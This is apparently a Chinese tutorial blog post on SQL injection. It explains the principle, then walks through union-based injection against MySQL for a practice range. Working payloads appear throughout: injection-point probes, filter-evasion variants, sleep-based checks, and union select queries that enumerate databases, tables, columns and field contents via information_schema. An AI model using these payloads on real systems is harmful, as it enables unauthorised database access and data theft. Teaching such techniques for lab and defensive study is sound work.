 # 原创
：  SQL注入原理分析

# SQL注入原理分析

**目录**

[SQL注入的本质](#h2-1)

[显错注入-联合查询（Mysql数据库）的基本流程](#%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5-%E8%81%94%E5%90%88%E6%9F%A5%E8%AF%A2%EF%BC%88Mysql%E6%95%B0%E6%8D%AE%E5%BA%93%EF%BC%89%E7%9A%84%E5%9F%BA%E6%9C%AC%E6%B5%81%E7%A8%8B)

[显错注入靶场的做法](#h2-3)

---


> 
如果文章对你有帮助，欢迎**关注、点赞、收藏**一键三连支持以下哦！
想要一起交流学习的小伙伴可以加zkaq222（备注CSDN，不备注通不过哦）进入学习，共同学习进步


### SQL注入的本质

> 
注入攻击的**本质: 把用户输入的数据当做代码执行**。
两个关键条件：
第一个是用户能够控制输入
第二个是原本程序要执行的代码，拼接了用户输入的数据然后进行执行


针对**SQL语句的注入**，也可以理解为用户输入的数据当做**SQL语句的代码执行**

### 显错注入-联合查询（Mysql数据库）的基本流程

 

> 
重要知识点: **通过系统自带库查询数据**
通过系统自带库查询数据 Mysql在5.0以上版本加入了**information_schema **这个系统自带库
其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等
**information_schema.tables**存放表名和库名的对应
**information_schema.columns**存放字段名和表名的对应
**注： 【information_schema.tables 实际上是选中information_schema库中的tables表】**


### 显错注入靶场的做法

**1.判断注入点**

最古老的方法：       and 1=1 页面正常       and 1=2  页面不正常

最简单的方法：       页面后面加',看是否报错

好用的方法：          如果是数字型传参，可以尝试-1

例如：    http://www.xxx.com/new.php?id=1   页面显示id=1的新闻

http://www.xxx.com/new.php?id=2-1  页面显示id=1的新闻

and 1=1 and 1=2 被拦截的可能性太高了

可以尝试 and -1=-1 and -1=-2 and 1&gt;0  or 1=1

或者直接 or sleep(5)

**2. 判断当前页面字段总数**

and 1=1 order by 1,2,3,4,5……

**3.判断显示位 **

and 1=2 union select 1,2,3,4,5,6,7……

**4.查当前数据库 **

and 1=2 union select 1,2,database()

**5.查表名 **

and 1=2 union select 1,2,table_name from information_schema.tables where table_schema=database() limit 0,1

**6.查列名 **

and 1=2 union select 1,2,column_name from information_schema.columns where table_name=表名 and table_schema=database() limit 0,1

**7.查字段内容 **

and 1=2 union select 1,字段名,字段名 from 表名 limit 0,1

**注：**函数**GROUP_CONCAT**将多行数据进行整合在一行输出

 
